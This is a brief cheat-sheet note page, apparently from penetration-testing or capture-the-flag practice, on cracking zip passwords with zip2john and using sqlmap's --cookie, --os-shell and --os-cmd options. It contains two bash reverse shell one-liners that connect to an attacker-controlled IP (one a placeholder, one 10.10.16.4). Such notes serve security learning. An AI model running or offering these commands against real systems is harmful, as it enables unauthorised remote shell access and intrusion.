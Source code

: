 ```yaml
---
sort : 12
--- 
```


# TMP 

Break protected zip file password ==> zip2john

sqlmap ===> if ypu loged in as a user, don't forget to provide the --cookie option for authentication

and keep in your mind the --os-shell option ==> use it to gain the bash reverse shell

os-shell>       bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"

--os-cmd 'bash -c "bash -i >& /dev/tcp/10.10.16.4/1234 0>&1"'






HIIIIIIIII 